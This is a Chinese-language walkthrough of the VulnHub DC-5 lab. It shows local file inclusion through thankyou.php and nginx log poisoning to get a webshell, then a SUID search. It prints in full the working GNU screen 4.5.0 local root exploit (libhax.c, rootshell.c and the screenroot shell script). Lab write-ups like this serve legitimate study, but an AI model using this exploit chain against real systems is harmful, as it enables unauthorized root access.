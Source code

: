 ```yaml
---
title: DC-5复现
tags: 
  - vulnhub
  - 渗透测试
permalink: /archives/4952/
createTime: 2022-06-26 20:04:03
---
```


# DC-5复现

# 描述

> DC-5是另一个专门建造的易受攻击的实验室，旨在获得渗透测试领域的经验。
>
> 该计划是让DC-5将其提升一个档次，因此这对初学者来说可能不是很好，但对于具有中级或更好经验的人来说应该是可以的。时间会证明一切（反馈也会证明一切）。
>
> 据我所知，只有一个可利用的入口点可以进入（也没有SSH）。这个特定的入口点可能很难识别，但它就在那里。您需要寻找一些与众不同的东西（随着页面的刷新而改变的东西）。这有望提供某种关于漏洞可能涉及的内容的想法。
>
> 只是为了记录，不涉及phpmailer漏洞。:-)
>
> 此挑战的最终目标是获取根并读取唯一的标志。
>
> Linux技能和熟悉Linux命令行是必须的，基本的渗透测试工具的一些经验也是如此。
>
> 对于初学者来说，Google可以提供很大的帮助，但是您可以随时在@DCAU7上发推文给我寻求帮助，以帮助您再次前进。但请注意：我不会给你答案，相反，我会给你一个关于如何前进的想法。
>
> 但是，如果您真的，真的卡住了，您可以观看这个视频，其中显示了第一步。

# 实战

## 信息收集

> 确定目标靶机的IP
>
> 扫面网段并判断目标靶机的IP，最终确定IP：192.168.116.129，并发现该靶机开放了80、111端口

![image-20220921225731025](https://img.crzliang.cn/img/image-20220921225731025.png)

- 访问80端口

![image-20220921225838699](https://img.crzliang.cn/img/image-20220921225838699.png)

## 目录扫描

![image-20220921230332927](https://img.crzliang.cn/img/image-20220921230332927.png)

## 寻找漏洞

- 访问footer.php，发现年份是一直在变化的

![image-20220921230358781](https://img.crzliang.cn/img/image-20220921230358781.png)

- 然后又访问了thankyou.php，在这里发现该页面调用了footer.php

![image-20220921230429298](https://img.crzliang.cn/img/image-20220921230429298.png)

- 应该是使用php的‘include()’ 函数来包含了 ‘footer.php’ 文件，这样直接导致了LFI漏洞，下面我们来测试一下漏洞是否真的存在和看一下是否会过滤包含进来的文件

![image-20220921230459378](https://img.crzliang.cn/img/image-20220921230459378.png)

- 发现可以成功读取到 /etc/passwd文件，存在文件包含漏洞
  - 靶机服务扫描时发现靶机网站使用的是nginx服务器，通过百度nginx服务器的配置文件/etc/nginx/nginx.conf，将nginx的配置文件包含过来查看日志路径，经过仔细查看发现了nginx的日志路径 

![image-20220920191246277](https://img.crzliang.cn/img/image-20220920191246277.png)

## 漏洞利用

- 于是我们尝试包含日志文件，然后我们可以看到，日志文件会记录我们传入的参数，所以我们可以把php一句话当参数传给日志文件，然后再次尝试包含日志文件，即可使用webshell管理工具，蚁剑连接即可获得shell

![image-20220920200407600](https://img.crzliang.cn/img/image-20220920200407600.png)

![image-20220920200444798](https://img.crzliang.cn/img/image-20220920200444798.png)

- 蚁剑连接

![image-20220920200625503](https://img.crzliang.cn/img/image-20220920200625503.png)

## 反弹shell

- 进入虚拟终端反弹shell

![image-20220920204425272](https://img.crzliang.cn/img/image-20220920204425272.png)

- 切换一下shell的外壳;

```python
python -c 'import pty;pty.spawn("/bin/sh")'
```

## 提权

- 这里用的是suid提权,先用下面命令查找哪些命令具有suid权限

```
find / -perm -u=s -type f 2>/dev/null
```

![image-20220921140010475](https://img.crzliang.cn/img/image-20220921140010475.png)

> 找到一个screen-4.5.0，
>
> 用searchsploit 查找相关漏洞脚本

```
searchsploit screen 4.5.0 
```

![image-20220921140243318](https://img.crzliang.cn/img/image-20220921140243318.png)

- 找到文件位置

![image-20220921141422922](https://img.crzliang.cn/img/image-20220921141422922.png)

- 查看文件

![image-20220921141524801](https://img.crzliang.cn/img/image-20220921141524801.png)

- 保存并编译libhax.c和rootshell.c

![image-20220921141717743](https://img.crzliang.cn/img/image-20220921141717743.png)

- 编译libhax.c

- 脚本

>  gcc -fPIC -shared -ldl -o libhax.so libhax.c 

```c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
```

- 编译rootshell.c
- 脚本

>  gcc -o rootshell rootshell.c

```c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
```

> 将剩余代码保存为dc5.sh，再用vim打开编辑
>
> 保存dc5.sh文件输入 **:set ff=unix** ，否则在执行脚本文件时后出错

```
#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017)
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so...
/tmp/rootshell    
```

![image-20220921215636375](https://img.crzliang.cn/img/image-20220921215636375.png)

- 将libhax.so 、rootshell 、dc5.sh三个文件通过蚁剑上传到靶机/tmp目录

![image-20220921220755016](https://img.crzliang.cn/img/image-20220921220755016.png)

- 上传成功后，执行dc5.sh

> chomd +x dc5.sh	//增加执行权限
>
> ./dc5.sh	//执行文件

![image-20220921221625827](https://img.crzliang.cn/img/image-20220921221625827.png)

- 进到root文件夹读取文件

![image-20220921221721259](https://img.crzliang.cn/img/image-20220921221721259.png)